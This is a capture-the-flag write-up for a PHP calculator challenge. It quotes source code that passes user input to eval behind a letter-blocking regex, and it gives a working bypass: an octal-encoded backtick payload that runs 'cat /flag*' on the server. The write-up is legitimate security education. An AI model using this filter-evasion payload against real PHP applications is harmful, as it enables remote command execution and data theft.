 ```yaml
---
title: Pcalc
date: 2021-04-25 18:15:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains _code execution_ but with a little twist. We can't use letters and those characters `'"\[]`. So we have to somehow bypass a filter. For more information about this sort of thing I recommend looking at this [article](https://www.programmersought.com/article/7881105401/) and this [one](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#using-octal). (\* ^ ω ^)

Looking at `index.php` we can see there is only one route:

```php
$router = new Router();
$router->new('GET', '/', 'CalcController@index');
```

The controller `CalcController.php` looks like this:

```php
<?php
class CalcController
{
    public function index($router)
    {
        $formula = isset($_GET['formula']) ? $_GET['formula'] : '100*10-3+340';
        $calc = new CalcModel();
        return $router->view('index', ['res' => $calc->getCalc($formula)]);
    }
}
```

## Vulnerability
After analysing the source code we see the code is vulnerable to code execution due to the `eval` function. We only need to bypass the `preg_match_all` function.
Here is the vulnerable code:

```php
<?php
class CalcModel
{
    public static function getCalc($formula)
    {
        if (strlen($formula) >= 100 || preg_match_all('/[a-z\'"]+/i', $formula)) {
            return '🤡 dont bite the hand that feeds you human 🤡';
        }
        try {
            eval('$pcalc = ' . $formula . ';');
            return isset($pcalc) ? $pcalc : '?';
        }
        catch (ParseError $err) {
           return '🚨 report to the nearest galactic federation agency 🚨';
        }  
    }
}
```

## Exploitation
We simply input `` `\143\141\164\40\57\146\154\141\147\52` `` (note the backticks) which is octal encoded for `cat /flag*` and we get the flag:

> CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}

٩(◕‿◕｡)۶
